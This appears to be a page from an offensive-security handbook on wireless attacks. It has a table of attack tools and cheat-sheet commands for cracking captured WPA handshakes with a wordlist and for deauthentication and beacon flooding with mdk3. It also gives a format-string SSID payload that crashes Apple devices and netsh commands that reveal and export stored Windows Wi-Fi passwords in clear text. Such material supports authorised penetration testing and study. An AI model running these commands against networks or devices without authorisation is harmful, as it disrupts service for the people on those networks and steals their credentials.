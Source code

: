 # Wireless Attacks

- [Resources](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#Resources)

## Table of Contents

- [airodump-ng](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#airodump-ng)
- [airmon-ng](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#airmon-ng)
- [ALFA AWUS036ACH](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#ALFA-AWUS036ACH)
- [Apple Wi-Fi Evil SSID](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#Apple-Wi-Fi-Evil-SSID)
- [mdk3](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#mdk3)
- [Microsoft Windows](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#Microsoft-Windows)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Aircrack-ng | WiFi security auditing tools suite | https://github.com/aircrack-ng/aircrack-ng |
| airgeddon | This is a multi-use bash script for Linux systems to audit wireless networks. | https://github.com/v1s1t0r1sh3r3/airgeddon |
| EAPHammer | EAPHammer is a toolkit for performing targeted evil twin attacks against WPA2-Enterprise networks. | https://github.com/s0lst1c3/eaphammer |
| Flipper | Playground (and dump) of stuff I make or modify for the Flipper Zero | https://github.com/UberGuidoZ/Flipper |
| flipperzero-firmware | Flipper Zero Code-Grabber Firmware | https://github.com/Eng1n33r/flipperzero-firmware |
| flipperzero-firmware-wPlugins | Flipper Zero FW [ROGUEMASTER] | https://github.com/RogueMaster/flipperzero-firmware-wPlugins |
| JackIt | JackIt - Exploit Code for Mousejack Resources | https://github.com/insecurityofthings/jackit |
| Pwnagotchi | (⌐■_■) - Deep Reinforcement Learning instrumenting bettercap for WiFi pwning. | https://github.com/evilsocket/pwnagotchi |
| WEF | A fully offensive framework to the 802.11 networks and protocols with different types of attacks for WPA/WPA2 and WEP, automated hash cracking, bluetooth hacking and much more. | https://github.com/D3Ext/WEF |
| Wifite | This repo is a complete re-write of wifite, a Python script for auditing wireless networks. | https://github.com/derv82/wifite2 |

## Aircrack-ng

```c
$ tshark -F pcap -r <FILE>.pcapng -w <FILE>.pcap
$ aircrack-ng -w /usr/share/wordlists/rockyou.txt <FILE>.pcap
```

## airodump-ng

```c
$ sudo airodump-ng <INTERFACE>mon
```

## airmon-ng

```c
$ sudo airmon-ng check kill
$ sudo airmon-ng start <INTERFACE>
$ sudo airmon-ng stop <INTERFACE>
```

## ALFA AWUS036ACH

```c
$ sudo apt-get install realtek-rtl88xxau-dkms
```

## Apple Wi-Fi Evil SSID

```c
%p%s%s%s%s%n
```

## mdk3

> https://github.com/charlesxsh/mdk3-master

```c
$ sudo mdk3 <INTERFACE>mon d -c <CHANNEL_NUMBER>
$ sudo mdk3 <INTERFACE>mon d <BSSID>
$ sudo mdk3 <INTERFACE>mon b <BSSID>
```

## Microsoft Windows

### Wireless Profiles

#### List Profiles

```c
PS C:\> netsh wlan show profiles
```

#### Extract Passwords

```c
PS C:\> netsh wlan show profile name="<PROFILE>" key=clear
```

#### Export Profiles

```c
PS C:\> netsh wlan export profile name="<PROFILE>" folder=C:\temp
```
